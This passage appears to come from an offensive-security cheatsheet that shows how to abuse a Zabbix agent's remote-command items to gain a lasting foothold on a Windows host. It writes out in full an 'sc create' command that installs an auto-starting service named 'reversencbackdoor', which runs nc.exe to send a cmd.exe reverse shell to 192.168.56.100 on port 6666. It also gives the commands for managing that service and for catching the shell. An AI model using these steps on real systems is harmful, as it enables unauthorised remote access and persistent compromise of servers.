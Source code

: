 ```python
        sys.exit()
    print("Added item with itemid {0} to host: {1}".format(item["itemids"][0], host_name))
else:
    print("No hosts found")
```

<a href="url"><img src="https://image.prntscr.com/image/NMG_MUJcTUOd3LasW2diuw.png" align="justify"></a>

And then...
<a href="url"><img src="https://image.prntscr.com/image/DOFyZ-ASQXGC6j7nfvSZUw.png" align="justify"></a>

Here we also will interfere with 30 sec timeout, so we'll make a permanent shell.

The agent is started as a service - so the file can be changed, it is enough for it to register a task on the server. For example we can create item which will use remote commands to append the necessary lines to the end of the configuration file.
What's about our shell? To do this, try to create a service (rights allow us), which will also raise the tunnel with nc. We will create a command to create the service, save it to a file, and then redirect it to the input nc (file service.txt):

sc create reversencbackdoor binpath= "cmd /C C:\Users\Public\nc.exe 192.168.56.100 6666 -e cmd.exe" type= own start= auto DisplayName= "NC service backdoor"

To manage the service we use the same approach, only the commands will be changed (file service_run.txt):
```bash
sc query reversencbackdoor
sc stop reversencbackdoor
sc start reversencbackdoor
```
As a result:
<a href="url"><img src="https://image.prntscr.com/image/SDUk9Bp2StmUnuGxv2Qt7g.png" align="justify"></a>

To connect, we start listening on port 6666 and start the service, without this the service starts and immediately ends its work.

<a href="url"><img src="https://image.prntscr.com/image/bITGe7b4RgSAAowewkb5Dw.png" align="justify"></a>

At this moment in separate window:

<a href="url"><img src="https://image.prntscr.com/image/TFjahUmCQH6seiBA_78lvw.png" align="justify"></a>

After Zabbix service will cease to exist, we will have a permanent shell from the service, which will connect to 6666 port:

<a href="url"><img src="https://image.prntscr.com/image/jdY7_RTfS6G8UThnmEE-Ug.png" align="justify"></a>

## Good job, folk! See ya soon

P.S.
Huge respect to [Shodin](https://github.com/freeworkaz) for his contribution to this cheatsheet. The latest versions of these scripts can be found [here](https://github.com/freeworkaz/zabbix_test). Also you can watch the [videos](https://www.youtube.com/channel/UC4wr-m-_6kRz2cHkdtRbW2g/videos) for a deeper understanding.
